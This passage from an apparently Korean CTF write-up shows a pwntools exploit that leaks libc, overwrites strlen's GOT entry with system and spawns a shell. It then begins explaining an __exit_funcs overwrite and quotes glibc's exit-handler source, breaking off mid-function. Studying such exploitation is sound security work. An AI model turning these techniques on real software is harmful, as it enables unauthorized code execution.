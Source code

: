 ```python
cmd(3)

p.recvuntil(b'->')
libc_base = u64(p.recvline()[:-1].ljust(8, b'\x00')) - 0x219ce0

print(hex(libc_base))

#gdb.attach(p)

overwrite_data(libc_base + 0x219090, p64(libc_base+l.sym['system'])*2, 30,31)

add(0, b"/bin/sh\x00")

cmd(3)

p.interactive()
```

got overwrite를 이용한 풀이는 위와 같습니다! `add`를 통해 0번에 `/bin/sh`을 써놓고 `print`하면 `printf("->%s\n", node[0]->buf);`이 실행되고 `printf`내부에서 두 번째 인자로 전달된 “/bin/sh”의 길이를 알아내기 위해 `strlen("/bin/sh")`이 호출됩니다. 그런데 여기서 `strlen`의 got는 `system`으로 덮여있기 때문에 결국 실행되는건 `system(”/bin/sh”)`이고 따라서 쉘을 얻을 수 있습니다.

이것으로 간결하고 우아한 익스플로잇이 끝났습니다. 이젠 머리아프고 복잡한 `__exit_funcs` overwrite를 통한 익스플로잇을 알아봅시다!…

## __exit_funcs overwrite

먼저 `__exit_funcs`에 대해 간략하게 알아봅시다. `exit` 함수가 호출되면 내부적으로 `__run_exit_handlers` 함수를 호출하고 여기서 `__exit_funcs`가 가리키는 `exit_function_list`를 참조하여 함수들을 호출하게 됩니다.

```c
void
attribute_hidden
__run_exit_handlers (int status, struct exit_function_list **listp,
		     bool run_list_atexit, bool run_dtors)
{
  /* First, call the TLS destructors.  */
#ifndef SHARED
  if (&__call_tls_dtors != NULL)
#endif
    if (run_dtors)
      __call_tls_dtors ();

  __libc_lock_lock (__exit_funcs_lock);

  /* We do it this way to handle recursive calls to exit () made by
     the functions registered with `atexit' and `on_exit'. We call
     everyone on the list and use the status value in the last
     exit (). */
  while (true)
    {
      struct exit_function_list *cur = *listp;

      if (cur == NULL)
	{
	  /* Exit processing complete.  We will not allow any more
	     atexit/on_exit registrations.  */
	  __exit_funcs_done = true;
	  break;
	}

      while (cur->idx > 0)
	{
	  struct exit_function *const f = &cur->fns[--cur->idx];
	  const uint64_t new_exitfn_called = __new_exitfn_called;
```